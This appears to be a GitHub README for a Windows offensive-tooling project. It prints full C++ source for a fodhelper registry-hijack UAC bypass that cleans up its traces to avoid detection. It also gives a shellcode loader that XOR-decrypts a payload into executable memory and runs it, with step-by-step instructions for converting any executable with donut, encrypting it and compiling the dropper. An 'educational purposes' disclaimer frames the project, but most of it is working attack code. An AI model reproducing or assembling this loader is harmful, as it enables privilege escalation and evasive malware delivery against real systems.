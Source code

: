 # L3582-490DER

## Overview
This project contains two main components: a C++ UAC bypass demonstration and a Python shellcode encryption utility. **This is for educational purposes only** and was developed by 3582-490 to explore Windows API concepts and security mechanisms.

## DISCLAIMER
**I, 3582-490, created this code solely for educational and research purposes. I do not endorse, encourage, or take responsibility for any misuse of this code. Unauthorized use of these techniques against systems you don't own is illegal and unethical. Use this knowledge responsibly and only in environments where you have explicit permission.**

## Project Structure

### 1. L3582-490DER.cpp
This C++ code demonstrates various Windows API concepts including potential UAC bypass techniques (commented out for safety).

#### UAC Bypass Code Explanation:
```cpp
// UAC bypass technique using fodhelper (commented out for safety)
/*
void mason__xa() {
    // Creates registry entries to hijack the fodhelper.exe UAC bypass
    HKEY mason__xb; // Registry key handle
    wchar_t mason__xc[MAX_PATH]; // Buffer for current executable path
    
    // Get the path of the current executable
    GetModuleFileNameW(NULL, mason__xc, MAX_PATH);
    
    // Create or open registry key for fodhelper hijack
    RegCreateKeyExW(HKEY_CURRENT_USER,
        L"Software\\Classes\\ms-settings\\shell\\open\\command",
        0, NULL, 0, KEY_WRITE, NULL, &mason__xb, NULL);
    
    // Set the default value to point to our executable
    RegSetValueExW(mason__xb, L"", 0, REG_SZ, (BYTE*)mason__xc, (wcslen(mason__xc) + 1) * sizeof(wchar_t));
    
    // Clear the DelegateExecute value to ensure our command runs
    RegSetValueExW(mason__xb, L"DelegateExecute", 0, REG_SZ, (BYTE*)L"", sizeof(wchar_t));
    
    // Launch fodhelper.exe which will execute our code with elevated privileges
    ShellExecuteW(NULL, L"open", L"fodhelper.exe", NULL, NULL, SW_HIDE);
    
    // Wait for execution to complete
    Sleep(3000);
    
    // Clean up registry entries to avoid detection
    RegDeleteTreeW(HKEY_CURRENT_USER, L"Software\\Classes\\ms-settings");
}

// Function to check if the current process has admin privileges
bool mason__xg() {
    BOOL mason__xh = FALSE; // Admin check result
    SID_IDENTIFIER_AUTHORITY mason__xi = SECURITY_NT_AUTHORITY; // NT authority
    PSID mason__xj; // Group SID

    // Create a SID for the Administrators group
    if (AllocateAndInitializeSid(&mason__xi, 2, SECURITY_BUILTIN_DOMAIN_RID,
        DOMAIN_ALIAS_RID_ADMINS, 0, 0, 0, 0, 0, 0, &mason__xj)) {
        // Check if current token is member of Admin group
        CheckTokenMembership(NULL, mason__xj, &mason__xh);
        FreeSid(mason__xj); // Free the SID
    }
    return mason__xh; // Return admin status
}
*/
```

#### Shellcode Execution Code Explanation:
```cpp
// Main function demonstrating XOR decryption and execution
int WINAPI WinMain(HINSTANCE mason__xk, HINSTANCE mason__xl, LPSTR mason__xm, int mason__xn) {
    // The commented section would check for admin privileges and attempt UAC bypass if not admin
    // if (!mason__xg()) {
    //    mason__xa();
    //    return 0;
    // }
    
    std::string mason__xd; // Unused string variable
    
    // Encrypted shellcode using XOR cipher (example values)
    unsigned char mason__xe[] = { 0x42, 0x6A, 0x75, 0xAA, 0xAA, 0x6A, 0x75, 0xAA };
    
    unsigned char mason__xf = 0xAA; // XOR decryption key
    
    // Decrypt the shellcode using XOR operation
    for (int mason__xi = 0; mason__xi < sizeof(mason__xe); ++mason__xi) {
        mason__xe[mason__xi] ^= mason__xf; // XOR each byte with key
    }
    
    // Allocate executable memory for the shellcode
    void* mason__xj = VirtualAlloc(0, sizeof(mason__xe), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    
    // Copy decrypted shellcode to executable memory
    memcpy(mason__xj, mason__xe, sizeof(mason__xe));
    
    // Execute the shellcode by casting memory to function pointer and calling it
    ((void(*)())mason__xj)();
    
    return 0;
}
```

### 2. ShellCodeXOR.py
This Python utility encrypts binary files (like shellcode) using XOR encryption for use in the C++ program.

#### Features:
- XOR encryption with customizable key (default 0xAA)
- Converts encrypted data to C-style array format
- Handles file input with validation
- Generates output ready for use in C++ programs

## How to Use

### Prerequisites
1. Download [donut](https://github.com/TheWover/donut/releases/download/v1.1/donut_v1.1.zip) to generate shellcode from executables
2. Python 3.x installed for the encryption script

### Step-by-Step Process

1. **Generate shellcode from an executable using donut:**
   ```
   donut.exe -i your_file.exe -o output.bin
   ```

2. **Encrypt the shellcode using the Python utility:**
   ```
   python ShellCodeXOR.py
   ```
   Follow the prompts to select your .bin file

3. **Replace the encrypted array in the C++ code:**
   - Copy the output from output.txt
   - Replace the `mason__xe` array in L3582-490DER.cpp with your encrypted shellcode

4. **Compile the C++ code:**
   - Use a C++ compiler like MinGW or Visual Studio
   - Ensure you link against the necessary libraries (Windows.h, etc.)

## Technical Details

### XOR Encryption
The project uses a simple XOR cipher with a single-byte key (0xAA) for demonstration purposes. In real-world scenarios, more robust encryption should be used.

### Memory Execution
The code uses `VirtualAlloc` with `PAGE_EXECUTE_READWRITE` permissions to allocate memory that can execute code. This technique is commonly monitored by security software.

### UAC Bypass (Commented Out)
The commented UAC bypass technique exploits the fodhelper.exe mechanism by creating specific registry entries. This technique is well-documented and likely detected by modern security solutions.

## Legal and Ethical Considerations

This code is provided for educational purposes only. Before using any of these techniques:

1. Ensure you have explicit written permission to test on the target system
2. Understand that these techniques may violate terms of service
3. Be aware that many of these methods are detected by modern security solutions
4. Never use this knowledge to harm others or disrupt systems

## About the Author

I'm 3582-490, a security enthusiast interested in understanding Windows internals and security mechanisms. I believe that understanding how systems can be exploited is essential to defending them effectively.

## License

This project is provided for educational purposes only. No license is granted for commercial use or redistribution.
